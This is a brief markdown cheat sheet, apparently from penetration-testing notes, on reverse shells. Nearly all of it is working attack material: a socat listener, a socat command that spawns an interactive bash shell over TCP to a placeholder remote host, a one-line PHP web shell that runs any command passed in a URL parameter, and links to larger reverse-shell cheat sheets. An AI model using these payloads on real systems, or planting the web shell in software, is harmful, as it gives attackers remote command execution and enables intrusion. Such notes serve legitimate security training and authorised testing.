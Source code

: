 # Reverse Shell

## Socat

### Listener

```bash
socat file:`tty`,raw,echo=0 tcp-listen:<LPORT>
```

### Connect

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<RHOST>:<RPORT>
```

## Web shell

### PHP

```php
<?php system($_GET['cmd']); ?>
```

## Links

- [RevShells Online](https://www.revshells.com/)
- [Reverse Shell - Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
